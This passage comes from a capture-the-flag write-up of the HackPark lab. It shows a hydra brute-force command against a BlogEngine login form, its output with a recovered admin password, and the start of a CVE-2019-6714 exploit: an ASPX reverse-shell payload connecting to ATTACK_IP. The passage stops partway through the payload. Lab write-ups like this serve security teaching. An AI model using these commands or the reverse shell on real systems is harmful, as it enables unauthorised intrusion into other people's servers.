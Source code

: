 which we then adapt to the hydra http-post-form syntax :

```console
┌──(kali㉿kali)-[~/Documents/tthm/hackpark]
└─$ hydra -l admin -P rockyou $IP  http-post-form  "/Account/login.aspx:__VIEWSTATE=quA%2BfixjnRZyooqN5mdBRNxn8Q0HJRLI%2Fme3ncga7GYibs1Kn82djcxVUC0xVctAp%2Bx96ueEBMjabvAbIEUXPZCnUOEiFyTjvTRobFro47FcvDnyxiDfD%2Bll5WgMv1T9rfWmf3NURxEIbuuXWeJB2PH35lQjFkxO3cxzWBih%2F3lYuSp3&__EVENTVALIDATION=sk%2BPFMIkK%2BETkL%2BXh%2FGhKa3D%2BGrGyaSjxQsCF2f0J6YvwZ1VaalcDJWgNOVFvnOjSuwxqzI%2BrapYubD%2BEaSqvhGEAUyGUrA%2FYI1ySSQCw2HKXKSi%2B2AJVSaubqI5ysoa%2BzbYS4pzr5j%2FKOumyhiLkaghWeJV6Pku%2Ftwc2flhEajZ%2B6%2F0&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=failed"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
...snip...
[80][http-post-form] host: 10.10.172.214   login: admin   password: PASSWORD
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-13 21:52:34
```
We use the discovered password to connect to the BlogEngine admin dashboard, and Navigate to ABOUT in the menu on the right to confirm the vulnerable BlogEngine version :

```html
...snip...
    <div class="panel-heading">
                <div class="panel-title">Your BlogEngine.NET Specification</div>
            </div>
            <ul class="list-group">
                <li class="list-group-item">
                    <span> Version:</span> 3.3.6.0
...snip...
```

## 3. Foothold : CVE-2019-6714

The `aspx/webapps/46353.cs` file provided by Searchsploit provides a basic guide to performing the exploit, as well as aspx/C# shellcode to use as a payload. Copy this file to your working directory and rename it `PostView.aspx`, replacing the arguments passed to `System.Net.Sockets.TcpClient` with the IP and port of your attack machine : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/hackpark]
└─$ head PostView.ascx        
<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
        static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

        using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("ATTACK_IP", ATTACK_PORT)) {
```
